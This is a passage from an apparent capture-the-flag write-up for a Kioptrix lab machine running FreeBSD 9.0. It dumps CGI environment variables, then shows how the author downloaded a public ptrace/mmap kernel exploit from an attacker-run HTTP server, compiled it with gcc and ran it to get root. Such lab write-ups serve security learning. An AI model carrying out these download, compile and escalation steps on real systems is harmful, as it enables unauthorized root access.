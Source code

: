 ```bash

echo argc is $#. argv is "$*".
echo

echo SERVER_SOFTWARE = $SERVER_SOFTWARE
echo SERVER_NAME = $SERVER_NAME
echo GATEWAY_INTERFACE = $GATEWAY_INTERFACE
echo SERVER_PROTOCOL = $SERVER_PROTOCOL
echo SERVER_PORT = $SERVER_PORT
echo REQUEST_METHOD = $REQUEST_METHOD
echo HTTP_ACCEPT = "$HTTP_ACCEPT"
echo PATH_INFO = "$PATH_INFO"
echo PATH_TRANSLATED = "$PATH_TRANSLATED"
echo SCRIPT_NAME = "$SCRIPT_NAME"
echo QUERY_STRING = "$QUERY_STRING"
echo REMOTE_HOST = $REMOTE_HOST
echo REMOTE_ADDR = $REMOTE_ADDR
echo REMOTE_USER = $REMOTE_USER
echo AUTH_TYPE = $AUTH_TYPE
echo CONTENT_TYPE = $CONTENT_TYPE
echo CONTENT_LENGTH = $CONTENT_LENGTH
```
None of this looks particulary interesting. Moving on to getting the right OS version:
```bash
$ uname -mrs
FreeBSD 9.0-RELEASE amd64
```
This is a bit more like it. A running theme of all these Kioptrix boxes are ancient operating systems (no fault of the creator since they were made ages ago). Of course there are kernal exploits for this. If I need to compile, www has access to gcc for some reason?
```bash
$ which gcc
/usr/bin/gcc
$ gcc
gcc: No input files specified
```
So that's great. There is an existing kernal exploit that leverages ptrace to access a vulnerable function in the mmap implementation of the OS, to make system calls which lead to privilege escalation. This is detailed further at https://labs.portcullis.co.uk/blog/in-the-lab-popping-cve-2013-2171-for-freebsd-9-0/ and https://www.exploit-db.com/exploits/26368.

### 5. Escalate to root
Firstly get the C file onto the machine and compile it.
```bash
$ fetch -o mpte.c http://192.168.34.142:8000/mpte.c
mpte.c                                                2213  B 5095 kBps
$ ls
aprkiJD9m
mpte.c
mysql.sock
vmware-fonts0
$ gcc mpte.c -o mpte
mpte.c:89:2: warning: no newline at end of file
```
Then modify the permissions and run it.
```bash
$ chmod +x mpte
$ ./mpte
whoami
root
```